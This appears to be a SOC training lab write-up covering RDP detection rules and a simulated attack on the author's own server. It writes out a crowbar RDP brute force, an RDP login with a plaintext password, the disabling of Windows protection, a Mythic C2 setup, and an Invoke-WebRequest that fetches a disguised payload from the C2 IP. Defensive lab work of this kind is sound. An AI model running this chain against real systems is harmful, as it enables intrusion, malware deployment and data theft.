 # Week 3: Brute Force RDP Attack Simulation and Mythic C2 Setup

## Steps

### 1. Finding Exposed RDP Servers
- **Using Shodan**: Search for servers with exposed RDP on the default port.
  ![Shodan Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2043%20Creating%20an%20account%20with%20shodan%20and%20searching%20port%203389.PNG) 
- **Using Censys**: Perform the same search to verify results.
  ![Censys Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2044%20Using%20Censys%20for%20Finding%20open%20RDP%20ports%20too.PNG) 

### 2. Monitoring Failed RDP Attempts
- Created a log query for failed RDP attempts and confirmed my own failed login.
  ![Failed RDP Log Query](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2045%20Saving%20a%20log%20query%20for%20Failed%20RDP%20Login%20Attempts%2C%20seeing%20my%20own%20log!.PNG) <!-- Replace with actual image link -->
- Created an alert for failed RDP attempts.
  ![Alert Generation](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2046%20Creating%20the%20Alert%20rule%20for%20failed%20RDP%20Attempts.PNG) <!-- Replace with actual image link -->
- Executed a brute force attack on my Windows server to generate an alert.
  ![Brute Force Alert](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2047%20Generating%20an%20alert%20via%20brute%20force%20RDP.PNG) <!-- Replace with actual image link -->

### 3. Configuring Detection Rules
- **Detection Rule Setup**:
    - Current rules only query thresholds; need to create detection rules under **Security**.
      ![Detection Rule Setup](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2048%20This%20is%20where%20we%20make%20REAL%20alerts.PNG) <!-- Replace with actual image link -->
    - Opted for preconfigured rules or created a new one to experiment. I chose to make my own
      ![Preconfigured Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2049%20Lets%20Create%20a%20new%20rule.PNG) <!-- Replace with actual image link -->
    - Configured data involved in the new rules, mirroring the process used for SSH attempts.
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%205%20Set%20it%20to%20this%20so%20you%20can%20access%20it%20via%20SOC%20Laptop.png) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2050%20Select%20this%20type%20of%20rule.PNG) <!-- Replace with actual image link -->
      ![Configuring New Rules](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2052%20My%20new%20rules%20are%20set.PNG) <!-- Replace with actual image link -->

### 4. Data Visualization
- Developed tables for dashboard visualization:
    - **Failed and Successful SSH Attempts** to the exposed Ubuntu server.
      ![SSH Attempts Visualization](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2054%20Created%20some%20tabled%20for%20my%20dashboard%20to%20visualize%20SSH%20data%20on%20my%20linux%20server.PNG) <!-- Replace with actual image link -->
    - **RDP Activity Tracking** on the exposed Windows server.
      ![RDP Activity Table]([link_to_your_image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2055%20Made%20some%20tables%20for%20the%20RDP%20activity%20on%20Windows%20Server.PNG)) <!-- Replace with actual image link -->

### 5. Attack Diagram Creation
- Created an attack diagram outlining the threat actor's process.
  ![Attack Diagram](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2056%20Network%20Attack%20Diagram.PNG) <!-- Replace with actual image link -->

### 6. Setting Up Mythic C2
- **Spin Up Ubuntu Server**:
    ```bash
    sudo apt install docker-compose
    sudo apt install make
    git clone https://github.com/its-a-feature/mythic
    cd mythic
    docker-compose up -d
    sudo systemctl restart docker
    ```
  ![Ubuntu Server Setup](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2057%20Install%20Mythic%20Github%20Repo.PNG) <!-- Replace with actual image link -->
- Checked Docker status before restarting the service.
  ![Docker Status](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2058%20run%20the%20docker%20install%20command%20in%20your%20mythic%20directory.PNG) <!-- Replace with actual image link -->

### 7. Starting Mythic
- Run the following command to start Mythic:
    ```bash
    make
    ./mythic-cli start
    ```
### 8. Configuring Mythic
- Tightened firewall rules, allowing exceptions for Windows and Ubuntu servers.
  ![Firewall Configuration](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2059%20This%20is%20what%20my%20firewall%20looks%20like%20now%2C%20only%20allowing%20my%20windows%20and%20linux%20server%2C.PNG) <!-- Replace with actual image link -->
- Accessed Mythic web GUI:
    - Default user: `mythic_admin`
    - Find password with:
        ```bash
        cat .env | grep -i admin_password
        ```
  ![Mythic GUI Login](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2060%20Get%20your%20mythic%20admin%20password.PNG) <!-- Replace with actual image link -->
  ![Mythic GUI Login](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2061%20We're%20in%20the%20mythic%20dashboard!.PNG) <!-- Replace with actual image link -->

### 9. Preparing for the Attack
- Created a target file on the Windows VM with admin password called "passwords.txt"
- Moved to Kali Linux machine wordlists directory and prepared `rockyou.txt`:
    ```bash
    gunzip rockyou.txt.gz
    head -n 50 rockyou.txt > ~/Documents/top_50_words.txt
    ```
  ![Preparing Wordlists](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2062%20lets%20access%20our%20wordlists%20directory.png) <!-- Replace with actual image link -->

### 10. Brute Force with Crowbar
- Added the Windows password to the wordlist for easier access. This way we can simulate our attack as if someone brute forced
- Installed Crowbar:
    ```bash
    sudo apt-get install -y crowbar
    ```
  ![Crowbar Installation](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2064%20Crowbar%20Successfully%20installed.png) <!-- Replace with actual image link -->
- (Note, I extracted the first 50 words in rockyou.txt to a file named top_50_words.txt, this is the text file i added the windows server password into)

- **Brute Force Command**:
    ```bash
    crowbar -b RDP -u Administrator -C top_50_words.txt -s 155.138.220.109
    ```
  ![Brute Force Command](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2066%20Successful%20brute%20force!.png) <!-- Replace with actual image link -->

### 11. RDP Session Access
- Used `xfreerdp` to access the RDP session:
    ```bash
    xfreerdp /u:Administrator /p:Winter2024! /v:155.138.220.109
    ```
  ![Accessing RDP Session](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2067%20Successfully%20in%20the%20RDP%20session!.png) <!-- Replace with actual image link -->
- Executed commands for intelligence gathering:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```
- Turn off windows protection
- ![image](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2068%20lets%20disable%20all%20the%20protection.png)

### 12. Created the payload with your installed services:
    - Ensured it calls back to the C2 server's public IP.
- ![Make sure](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2073%20put%20what%20you%20want%20in%20your%20payload%2C%20and%20make%20it%20call%20back%20to%20your%20C2%20server.PNG)

### 13. Downloading and Executing Payload
- SSH into Mythic server and download agent:
    ```bash
    ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
    ```

- Install HTTP profile:
    ```bash
    ./mythic-cli install github https://github.com/MythicC2Profiles/http
    ```

- Allow port 80:
    ```bash
    ufw allow 80
    ```

  - Allow port 9999:
    ```bash
    ufw allow 9999
    ```
    
- run the python session:
    ```bash
    python3 -m http.server 9999
    ```
    

- Downloaded the payload onto our windows server RDP session:
    ```bash
    Invoke-WebRequest -Uri http://45.76.248.184:9999/svchost-SOC-Project.exe -OutFile "C:\Users\Public\Downloads\svchost-SOC-Project.exe"
    ```
  ![Payload Creation](link_to_your_image) <!-- Replace with actual image link -->

### 14. Monitor The Connection
- Result of the payload on the Windows server.
  ![Payload Execution](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2077%20We%20can%20see%20our%20established%20session.PNG)
- Monitored Mythic GUI for established session and confirmed successful file extraction from the agent.
  ![Mythic GUI Session](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2078%20Our%20attack%20was%20successful%2C%20we%20got%20the%20file.PNG) <!-- Replace with actual image link -->

## Conclusion
This week focused on simulating a brute force RDP attack while setting up the Mythic C2 server. Key tasks included finding exposed RDP servers, configuring detection rules, and creating payloads for further exploitation.
